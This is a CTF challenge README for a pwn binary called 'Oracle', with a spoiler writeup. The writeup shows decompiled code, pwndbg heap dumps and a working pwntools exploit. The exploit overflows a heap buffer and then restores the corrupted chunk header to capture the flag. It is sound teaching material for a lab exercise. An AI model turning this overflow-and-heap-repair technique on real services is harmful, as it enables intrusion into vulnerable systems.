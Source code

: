 # Oracle

A <ins>medium difficulty pwn</ins> challenge where a port and the a [zip file](out/challenge.zip) is given to the players.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-oracle:latest .`
2. Run the image: `podman rm -f ctf-oracle; podman run --rm -it -p 1337:1337 -e CHALLENGE_PORT=1337 --name ctf-oracle ctf-oracle:latest`
3. Share the [zip file](out/challenge.zip) and the port with the players

<details>
<summary>Writeup (Spoiler)</summary>

This challenge is essentially the brother of delphi. However in this case, if we load the binary up in Ghidra, we can see that the `main` function is a bit different:

```c

undefined8 FUN_0040146b(void)

{
  int iVar1;
  char *__s;
  char *__s2;
  long in_FS_OFFSET;
  int local_60;
  int local_5c;
  char local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  FUN_00401314();
  FUN_00401286();
  __s = (char *)malloc(0x10);
  __s2 = (char *)malloc(0x20);
  memset(__s2,0,0x20);
  getrandom(__s2,0x20,0);
  for (local_5c = 0; local_5c < 0x20; local_5c = local_5c + 1) {
    if ((__s2[local_5c] == '\0') || (__s2[local_5c] == '\n')) {
      __s2[local_5c] = '*';
    }
  }
  do {
    if (local_60 == 1) {
      puts("You are a true mind reader.");
      FUN_004013b2();
LAB_0040165d:
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    }
    puts("Welcome to the Oracle of Delphi!");
    puts("Hic es forsit ut tuum futurum invenias.\n");
    puts(
        "I will think of something bright and shiny. If you manage to think of the same thing, I wil l predict your future."
        );
    puts("If not, shall the gods have mercy on your soul.\n");
    printf("What shall I think of (ie What\'s my favorite instrument)? ");
    FUN_00401334(__s);
    printf("So you asked: ");
    puts(__s);
    puts("Okay, now that\'s a good one. Let me think...");
    sleep(2);
    printf("Got it. Any clue what it is I had in mind? ");
    fgets(local_48,0x21,stdin);
    iVar1 = strncmp(local_48,__s2,0x20);
    if (iVar1 != 0) {
      puts("Nope, that\'s not it. You\'re doomed.");
      goto LAB_0040165d;
    }
    puts("Just double checking... What did you say? ");
    gets(__s);
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    free(__s2);
    free(__s);
    local_60 = 1;
  } while( true );
}
```

There is an extra while loop and some extra `free` calls happen on the two buffers. We can use the same exploit to get to the `You got it` message, however if we do the stack overflow, the heap will be corrupted and the `free` calls will fail. Therefore we won't get our flag.

Which means that we need to fix the heap corruption. There is a `gets` call at the double checking which we can use to do that. However we don't know what the heap looks like, so let's set a breakpoint before the stack overflow for example to the `What shall I think of` line and another one to `"Woah... You got it.` where the heap is already corrupted:

```py
gdbscript = """
break *0x40157f
break *0x401634
continue
""".format(
    **locals()
)
```

Time to run this with GDB and see what's going on. I will use pwndbg.

If I run `heap` at the first breakpoint I see this:

```
pwndbg> heap
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

Allocated chunk | PREV_INUSE
Addr: 0xc29000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0xc29290
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0xc292b0
Size: 0x30 (with flag bits: 0x31)

Top chunk | PREV_INUSE
Addr: 0xc292e0
Size: 0x20d20 (with flag bits: 0x20d21)
```

While vis reveals the following layout:

```
pwndbg> vis

0xc29000        0x0000000000000000      0x0000000000000291      ................
0xc29010        0x0000000000000000      0x0000000000000000      ................
0xc29020        0x0000000000000000      0x0000000000000000      ................
0xc29030        0x0000000000000000      0x0000000000000000      ................
0xc29040        0x0000000000000000      0x0000000000000000      ................
0xc29050        0x0000000000000000      0x0000000000000000      ................
0xc29060        0x0000000000000000      0x0000000000000000      ................
0xc29070        0x0000000000000000      0x0000000000000000      ................
0xc29080        0x0000000000000000      0x0000000000000000      ................
0xc29090        0x0000000000000000      0x0000000000000000      ................
0xc290a0        0x0000000000000000      0x0000000000000000      ................
0xc290b0        0x0000000000000000      0x0000000000000000      ................
0xc290c0        0x0000000000000000      0x0000000000000000      ................
0xc290d0        0x0000000000000000      0x0000000000000000      ................
0xc290e0        0x0000000000000000      0x0000000000000000      ................
0xc290f0        0x0000000000000000      0x0000000000000000      ................
0xc29100        0x0000000000000000      0x0000000000000000      ................
0xc29110        0x0000000000000000      0x0000000000000000      ................
0xc29120        0x0000000000000000      0x0000000000000000      ................
0xc29130        0x0000000000000000      0x0000000000000000      ................
0xc29140        0x0000000000000000      0x0000000000000000      ................
0xc29150        0x0000000000000000      0x0000000000000000      ................
0xc29160        0x0000000000000000      0x0000000000000000      ................
0xc29170        0x0000000000000000      0x0000000000000000      ................
0xc29180        0x0000000000000000      0x0000000000000000      ................
0xc29190        0x0000000000000000      0x0000000000000000      ................
0xc291a0        0x0000000000000000      0x0000000000000000      ................
0xc291b0        0x0000000000000000      0x0000000000000000      ................
0xc291c0        0x0000000000000000      0x0000000000000000      ................
0xc291d0        0x0000000000000000      0x0000000000000000      ................
0xc291e0        0x0000000000000000      0x0000000000000000      ................
0xc291f0        0x0000000000000000      0x0000000000000000      ................
0xc29200        0x0000000000000000      0x0000000000000000      ................
0xc29210        0x0000000000000000      0x0000000000000000      ................
0xc29220        0x0000000000000000      0x0000000000000000      ................
0xc29230        0x0000000000000000      0x0000000000000000      ................
0xc29240        0x0000000000000000      0x0000000000000000      ................
0xc29250        0x0000000000000000      0x0000000000000000      ................
0xc29260        0x0000000000000000      0x0000000000000000      ................
0xc29270        0x0000000000000000      0x0000000000000000      ................
0xc29280        0x0000000000000000      0x0000000000000000      ................
0xc29290        0x0000000000000000      0x0000000000000021      ........!.......
0xc292a0        0x0000000000000000      0x0000000000000000      ................
0xc292b0        0x0000000000000000      0x0000000000000031      ........1.......
0xc292c0        0x7e318b1c47734670      0x060d1089edf210cb      pFsG..1~........
0xc292d0        0x6c1385d76ce89030      0xa482685b94680ead      0..l...l..h.[h..
0xc292e0        0x0000000000000000      0x0000000000020d21      ........!.......         <-- Top chunk
```

It's little endian so we see our relevant data at the bottom including our random buffer's content and the yet empty user input buffer. Let's run `c` to continue.

```
pwndbg> heap
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

Allocated chunk | PREV_INUSE
Addr: 0x14fa000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x14fa290
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x14fa2b0
Size: 0xa61616861616160 (with flag bits: 0xa61616861616167)
```

Running heap again and it seems corrupted. In fact the size is now our cyclic pattern. Let's see what vis says:

```
pwndbg> set max-visualize-chunk-size 100
Set max display size for heap chunks visualization (0 for display all) to 100.
pwndbg> vis

0x14fa000       0x0000000000000000      0x0000000000000291      ................
0x14fa010       0x0000000000000000      0x0000000000000000      ................
0x14fa020       0x0000000000000000      0x0000000000000000      ................
0x14fa030       0x0000000000000000      0x0000000000000000      ................
.........
0x14fa250       0x0000000000000000      0x0000000000000000      ................
0x14fa260       0x0000000000000000      0x0000000000000000      ................
0x14fa270       0x0000000000000000      0x0000000000000000      ................
0x14fa280       0x0000000000000000      0x0000000000000000      ................
0x14fa290       0x0000000000000000      0x0000000000000021      ........!.......
0x14fa2a0       0x6161616261616100      0x6161616461616163      .aaabaaacaaadaaa
0x14fa2b0       0x6161616661616165      0x0a61616861616167      eaaafaaagaaahaa.
0x14fa2c0       0x77a108ae2b064020      0x5d7f01dec5e10f7d       @.+...w}......]
0x14fa2d0       0x73542b5d2faeec83      0xc7f1080990d1f85b      .../]+Ts[.......
0x14fa2e0       0x0000000000000000      0x0000000000020d21      ........!.......         <-- Top chunk
.........
0x151afc0       0x0000000000000000      0x0000000000000000      ................
0x151afd0       0x0000000000000000      0x0000000000000000      ................
0x151afe0       0x0000000000000000      0x0000000000000000      ................
0x151aff0       0x0000000000000000      0x0000000000000000      ................
```

Our goal is simple. Using the gets we have, we can restore the heap to match its original layout. So we see that we need to send 24 bytes of \x00 to null the content, then one time \x31 for the size and finally 7 times \x00 to have it completely restored.

Let's put the exploit together:

```py
exe = "./oracle_patched"
elf = context.binary = ELF(exe, checksec=False)
context.log_level = "debug"

io = start()

io.sendlineafter(b"instrument)?", cyclic(31))
line = io.recvline()
log.info(f"Line: {line}")

thought = io.recvline()[0:32]
log.info(f"Thought: {thought}")

io.sendafter(b"mind? ", thought)
io.sendlineafter(b"say? ", (b"\x00" * 24) + b"\x31" + (b"\x00" * 7))

io.recvline_endswith(b"reader.")
flag = io.recvline().decode().strip()
log.info(f"Flag: {flag}")
```

Time to run it:

```
[DEBUG] Received 0x2a bytes:
    b'Just double checking... What did you say? '
[DEBUG] Sent 0x21 bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  00 00 00 00  00 00 00 00  31 00 00 00  00 00 00 00  │····│····│1···│····│
    00000020  0a                                                  │·│
    00000021
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x9b bytes:
    b'Woah... You got it. Interested in a job offer? We have some good java coffee.\n'
    b'You are a true mind reader.\n'
    b'cq23{sUch_@_typ1c4l_r341_w0rld_siTUaT10n_righT?}\n'
[*] Flag: cq23{sUch_@_typ1c4l_r341_w0rld_siTUaT10n_righT?}
```

And there we have it. :)

Note: The included `poc.py` only works locally if you execute it from the `out` folder.
</details>